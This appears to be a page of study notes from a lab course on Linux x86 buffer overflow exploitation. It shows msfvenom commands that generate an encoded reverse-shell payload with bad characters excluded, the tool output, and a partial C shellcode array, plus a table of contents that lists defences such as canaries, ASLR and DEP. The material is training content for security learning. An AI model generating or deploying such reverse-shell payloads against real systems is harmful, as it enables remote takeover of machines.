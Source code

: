 ## Table of Contents

      - [MSFvenom - Generate Shellcode](#MSFvenom\-\Generate\Shellcode)
      - [Shellcode](#Shellcode)
      - [Notes](#Notes)
      - [Exploit with Shellcode](#Exploit\with\Shellcode)
      - [The Stack](#The\Stack)
      - [Character List](#Character\List)
      - [Calculate CHARS Length](#Calculate\CHARS\Length)
      - [Notes](#Notes)
- [Identification of the Return Address](#identification\of\the\return\address)
      - [GDB NOPS](#GDB\NOPS)
- [Prevention Techniques and Mechanisms](#prevention\techniques\and\mechanisms)
  - [Canaries](#Canaries)
  - [Address Space Layout Randomization (ASLR)](#Address\Space\Layout\Randomization\(ASLR))
  - [Data Execution Prevention (DEP)](#Data\Execution\Prevention\(DEP))

msfvenom shellcode payload syntax:
  
MSFvenom Syntax

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```
#### MSFvenom - Generate Shellcode

  MSFvenom - Generate Shellcode

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```
#### Shellcode

  Shellcode

```shell-session
gdxqpardo@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```
Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.
